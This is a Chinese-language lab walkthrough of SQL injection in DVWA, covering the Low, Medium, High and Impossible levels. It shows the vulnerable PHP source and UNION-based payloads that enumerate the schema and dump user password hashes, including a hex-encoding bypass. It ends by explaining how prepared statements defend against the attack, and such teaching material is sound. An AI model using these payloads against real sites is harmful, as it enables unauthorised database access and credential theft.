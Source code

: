	**SQL注入**：SQL注入就是指web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数下入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。


## 1、Low
**查看源码**
```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '
<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

通过代码我们可以看到并没有对用户所输入的数据做任何的判断就直接带入到数据库的查询语句中，并返回“firstname”，“lastname”。

通过看源码我们可以知道可以使用`'`来闭合前面的`'`，用`#`来注释掉后面的内容，来进行注入。而且可以看到有两个可以返回的字段。

**实战**<br />使用union注入查看当前数据库和用户名，可以看到数据库为dvwa，用户为root
```sql
-1' union select database(),user() #
```
![image-20210414141529809.png](_img/assets/1655879469217-cbc1fa99-774f-4599-80da-851be591a020.png)

查看dvwa数据库中的表，可以看到有两个表guestbook和users。
```sql
-1' union select user(),group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
```
![image-20210414142434754.png](_img/assets/1655879481163-4b32eb9b-aa4b-4180-9f03-706a2d24dc4e.png)

查看users中的字段
```sql
-1' union select user(),group_concat(column_name) from information_schema.columns where table_name='users'#
```
![image-20210414142705424.png](_img/assets/1655879486720-2978702c-296f-4881-8987-f0d03bbf4cdd.png)

查看user，和password,得到账户和密码的MD5
```sql
-1' union select user(),group_concat(concat_ws('-',user,password)) from dvwa.users#
```
![image-20210414143100602.png](_img/assets/1655879491383-ac73da71-2d8e-4209-82fe-b4d7f7787852.png)

解密得到密码<br />![image-20210414143459141.png](_img/assets/1655879496709-180b0570-34d6-4771-a2e3-35ae59db00b2.png)


## 2、Medium
**查看源码**
```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '
<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '
<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

**函数说明**
```
定义和用法
mysqli_real_escape_string（）函数转义在SQL语句中使用的字符串中的特殊字符。

语法
mysqli_real_escape_string(connection,escapestring);
connection:必需。规定要使用的 MySQL 连接。
escapestring:必需。要转义的字符串。编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z。
```

在这里使用了mysqli_real_escape_string（）转义一些特殊字符，也就是说我们不能使用像Low中的`'1#`,不过我们可以使用`and 1=2`来进行注入，不需要进行过滤。而且可以看到这里是以表单的形式来然我们提交，web页面参数不可控，所以需要使用burp来抓包重放。修改参数id即可。<br />![image-20210414151316663.png](_img/assets/1655879514109-e11ff2dc-59df-4aa8-bd30-0b14157826e4.png)

**实战**<br />查看当前用户和数据库
```
1 and 1=2 union select user(),database()
```
![image-20210414150447028.png](_img/assets/1655879521177-5cd1c09a-484d-452a-a62f-92bc6a498faf.png)

查看dvwa表中的字段,因为将`'`和`"`进行了转义无法使用，所以在这里我将dvwa转为ascii十六进制0x64767761
```
1 and 1=2 union select user(),group_concat(table_name) from information_schema.tables where table_schema=0x64767761
```
![image-20210414151255002.png](_img/assets/1655879526097-5ee164e4-df7b-4aea-b60b-03621cf07397.png)

查看users表中的字段
```
1 and 1=2 union select user(),group_concat(column_name) from information_schema.columns where table_name=0x7573657273
```
![image-20210414151605836.png](_img/assets/1655879531087-73297807-95e1-430e-bade-a2c0c02c8b29.png)

查看user和password
```
1 and 1=2 union select user(),group_concat(	concat_ws(0x2d,user,password)) from dvwa.users
```
![image-20210414151954881.png](_img/assets/1655879536619-5540cf6b-dfaf-4079-a328-1ff61bd448b0.png)

解密得到密码<br />![image-20210414143459141.png](_img/assets/1655879540443-9d2c4429-ab9f-4604-9e0a-3ab11f6c1892.png)


## 3、High
**查看源码**
```php
<?phpif( isset( $_SESSION [ 'id' ] ) ) {    // Get input    $id = $_SESSION[ 'id' ];    // Check database    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '
<pre>Something went wrong.</pre>' );    // Get results    while( $row = mysqli_fetch_assoc( $result ) ) {        // Get values        $first = $row["first_name"];        $last  = $row["last_name"];        // Feedback for end user        echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";    }    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        }?>
```

通过源码可以看到就是在Low的基础上在sql语句后面加了一个LIMIT 1，希望以此控制只输出一个结果。但是我们还是可以通过#将其注释掉。

以下步骤与Low相同，不进行叙述。


## 4、Impossible
**查看源码**
```php
<?phpif( isset( $_GET[ 'Submit' ] ) ) {    // Check Anti-CSRF token    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );    // Get input    $id = $_GET[ 'id' ];    // Was a number entered?    if(is_numeric( $id )) {        // Check the database        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );        $data->bindParam( ':id', $id, PDO::PARAM_INT );        $data->execute();        $row = $data->fetch();        // Make sure only 1 result is returned        if( $data->rowCount() == 1 ) {            // Get values            $first = $row[ 'first_name' ];            $last  = $row[ 'last_name' ];            // Feedback for end user            echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";        }    }}// Generate Anti-CSRF tokengenerateSessionToken();?>
```

通过源码可以看到，Impossible级别的代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入，同时只有返回的查询结果数量为一时，才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken机制的加入了进一步提高了安全性。

